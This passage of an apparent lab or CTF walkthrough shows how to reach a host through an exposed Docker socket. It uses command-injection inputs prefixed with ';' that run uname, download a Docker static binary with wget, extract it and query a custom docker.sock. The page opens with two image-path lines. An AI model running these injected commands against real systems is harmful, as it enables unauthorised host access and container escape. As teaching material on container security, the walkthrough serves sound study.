


## Interacting with Docker sock
* Next we can download the official `docker` static binary from the internet [https://download.docker.com/linux/static/stable/](https://download.docker.com/linux/static/stable/). In order to determine which binary we need, we can run the following command for system discovery

```bash
;uname -a
```

* We can examine the output to determine our system architecture and OS, then download the appropriate docker binary to the container. For example, if our target system is a x86\_64 Linux box, we can use the following command

```bash
;wget https://download.docker.com/linux/static/stable/x86_64/docker-19.03.9.tgz -O /tmp/docker-19.03.9.tgz
```

* We can extract the binary from the `docker-19.03.9.tgz` file so that we can use that to talk to the UNIX socket

```bash
;tar -xvzf /tmp/docker-19.03.9.tgz -C /tmp/
```



* Now we can access the host system by running the following docker commands with passing `docker.sock` UNIX socket

```bash
;/tmp/docker/docker -H unix:///custom/docker/docker.sock images
```


```